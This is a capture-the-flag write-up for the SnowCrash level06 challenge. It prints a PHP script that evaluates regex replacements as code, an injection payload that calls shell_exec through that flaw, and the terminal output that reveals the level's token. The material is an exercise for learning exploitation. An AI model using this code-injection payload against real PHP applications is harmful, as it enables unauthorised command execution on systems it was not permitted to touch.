# Snowcrash06

This time we have a binary as well as a php file.

```php
#!/usr/bin/php
<?php
function y($key)
{   $key = preg_replace("/\./", " x ", $key);
    $key = preg_replace("/@/", " y", $key);
    print "here";
    return $key;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
    $r = x($argv[1], $argv[2]);
    print $r;
?>

```

The executable calls the PHP file, in which there is a line that interprets as PHP code  
We just have to be able to reach it

It looks something like that
```sh
[x {${shell_exec(getflag)}} ]
```

```sh
level06:~$ echo '[x {${shell_exec(getflag)}} ]' > /tmp/t
level06@SnowCrash:~$ ./level06 /tmp/t
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
